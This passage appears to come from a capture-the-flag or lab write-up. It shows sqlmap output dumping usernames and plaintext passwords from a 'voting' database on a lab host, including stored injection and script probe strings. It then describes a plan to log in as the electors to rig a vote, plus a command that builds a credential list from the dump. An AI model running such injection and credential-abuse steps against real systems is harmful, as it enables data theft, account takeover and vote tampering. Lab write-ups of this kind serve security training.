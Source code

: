 ```bash
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)  
web server operating system: Linux Debian                                       
web application technology: Apache 2.4.56                                   
back-end DBMS: MySQL >= 5.1 (MariaDB fork)                                
[04:25:37] [INFO] fetching columns for table 'users' in database 'voting'  
[04:25:37] [INFO] retrieved: 'id'               
[04:25:37] [INFO] retrieved: 'int(11)'                    
[04:25:37] [INFO] retrieved: 'username'                       
[04:25:37] [INFO] retrieved: 'varchar(255)'                                
[04:25:37] [INFO] retrieved: 'password'                                
[04:25:37] [INFO] retrieved: 'varchar(255)'                                  
[04:25:37] [INFO] fetching entries for table 'users' in database 'voting'
[04:25:37] [INFO] retrieved: '1'                                 
[04:25:37] [INFO] retrieved: 'azerty'                                   
[04:25:37] [INFO] retrieved: 'paolo'                                       
[04:25:37] [INFO] retrieved: '2'                                        
[04:25:37] [INFO] retrieved: 'sturgeon'  
[04:25:37] [INFO] retrieved: 'rank'                                            
[04:25:37] [INFO] retrieved: '3'       
<SNIP>
[04:26:20] [INFO] retrieved: '1021'                                          
[04:26:20] [INFO] retrieved: 'test1'                                   
[04:26:20] [INFO] retrieved: 'admin..(),),'")'                                   
[04:26:20] [INFO] retrieved: '1022'                                      
[04:26:20] [INFO] retrieved: 'test1'                                         
[04:26:20] [INFO] retrieved: 'admin'jSfDni<'">StWONv'
Database: voting                                                             
Table: users                                                              
[1005 entries]                                                           
+------+---------------+------------------------+                        
| id   | password      | username               |
+------+---------------+------------------------+
<SNIP>
[04:26:20] [WARNING] console output will be trimmed to last 256 rows due to large table size
<SNIP>                                                           
| 1020 | test1         | 2916                   |
| 1021 | test1         | admin..(),),'")        |
| 1022 | test1         | admin'jSfDni<'">StWONv |
+------+---------------+------------------------+

[04:26:20] [INFO] table 'voting.users' dumped to CSV file '/home/pentester/.local/share/sqlmap/output/10.0.2.19/dump/voting/users.csv'
[04:26:20] [INFO] fetched data logged to text files under '/home/pentester/.local/share/sqlmap/output/10.0.2.19'

[*] ending @ 04:26:20 /2024-09-18/
```

Now that we have the username and passwords of the electors, we can influence the vote and select one party. Remember that on the home page of this web application, it was mentioned that the first candidate to reach 1000 votes will win the elections. We currently own the accounts of 1022 electors so, let's choose a party and vote for them.  Logging into every account manually will be time-consuming. For this reason, we will write a script to automate the process. We will first create a username and a password list.
```bash
┌──(pentester㉿kali)-[~/Democracy/Misc Files]
└─$head -n 1001 /home/pentester/.local/share/sqlmap/output/10.0.2.19/dump/voting/users.csv | cut -d "," -f2,3  > user-pass.txt
```
